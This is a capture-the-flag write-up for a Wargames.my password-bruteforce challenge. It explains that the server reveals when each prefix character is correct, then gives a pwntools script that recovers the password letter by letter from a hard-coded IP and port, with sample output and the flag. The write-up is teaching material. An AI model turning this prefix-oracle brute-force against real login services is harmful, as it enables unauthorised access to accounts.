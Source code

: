 ```yaml
---
title: "Wargames.my 2015 - Foo Soo Rah (Brute)"
tags:
  - wargamesmy2016
  - writeup
  - programming
  - bruteforce
---
```


We are given an IP address:port pair and told to bruteforce smartly.

On connecting, we are asked for a password. It tells us whether the password
fails and returns the response time of the password check. The vulnerability
here is that when the letter matches, no further data is sent. So we can simply
bruteforce by iterating letter by letter until we receive a success message.

```python
from pwn import *
import string

HOST = "107.191.103.43"
PORT = 1234

def main():
    charset = string.ascii_lowercase
    password = ""
    while True:
        for i in charset:
            result = get_response(password + i)
            if result == "succeed":
                password += i
                log.success("Found your key! It is: %s" % password)
                return
            elif result == "onemore":
                password += i
                log.success("Got next character '%s' (%s)" % (i, password))

def get_response(data):
    conn = remote(HOST, PORT)
    conn.sendline(data)
    failpass = ""
    try:
        failpass = conn.recvline_contains(("Failed!", "SUCCEEDED"))
    except:
        pass
    conn.close()
    if "Failed!" in failpass:
        return "fail"
    elif "SUCCEEDED" in failpass:
        return "succeed"
    else:
        return "onemore"

if __name__ == "__main__":
    main()
```

Here is it in action:

```shell
$ python exploit.py
[+] Got next character 't' (t)
[+] Opening connection to 107.191.103.43 on port 1234: Done
[*] Closed connection to 107.191.103.43 port 1234
... SNIP ...
[+] Opening connection to 107.191.103.43 on port 1234: Done
[*] Closed connection to 107.191.103.43 port 1234
[+] Got next character 'e' (thereisnoke)
[+] Opening connection to 107.191.103.43 on port 1234: Done
[*] Closed connection to 107.191.103.43 port 1234
... SNIP ...
[+] Opening connection to 107.191.103.43 on port 1234: Done
[*] Closed connection to 107.191.103.43 port 1234
[+] Found your key! It is: thereisnokey
```

Flag: **thereisnokey**

